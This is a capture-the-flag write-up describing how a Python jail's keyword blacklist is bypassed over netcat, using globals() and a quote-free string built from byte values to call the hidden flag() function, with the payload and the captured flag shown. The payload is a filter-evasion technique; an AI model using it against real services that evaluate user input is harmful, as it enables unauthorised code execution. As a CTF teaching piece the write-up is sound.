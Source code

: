 The netcat session also asks me to input a command where I need to write a command to execute. To read flag, I am supposed to get into function `flag()`. Since we have blacklist in this script we can't do anything much. But....

In Python there is a global function called `globals` that returns a dictionary with all global functions and variables of the script.

```python
$ python3 -q
>>> globals()
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <class '_frozen_importlib.BuiltinImporter'>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>}  
>>> a = 4444
>>> globals().get('a')
4444
```
They also works great with functions like:
```python
>>> def f():
...     print('hey')
...
>>> globals().get('f')
<function f at 0x101137920>  
>>> globals().get('f')()
hey
```
Now, we only need to use a string without single/double quotes. There are several ways, like using a list of integers as `bytes` or using `chr` and `+` like:
```python
>>> list(b'flag')
[102, 108, 97, 103]
>>> bytes([102, 108, 97, 103]).decode()
'flag'
>>> chr(102) + chr(108) + chr(97) + chr(103)
'flag'
```
Now, we have all the pieces. Let's join them and construct a payload: `globals().get(bytes((102, 108, 97, 103)).decode())()`. 
All I did was used this command and boom we get our flag.
```
┌──(rezy㉿dev)-[~]
└─$ nc misc.challenges.ctf.pentesternepal.com 4445

[// .. PYTHON SNIP .. \\]

Waiting for yours command: globals().get(bytes((102, 108, 97, 103)).decode())()
PTNCTF24{d1d_y0u_r34lly_Knew_That}
```




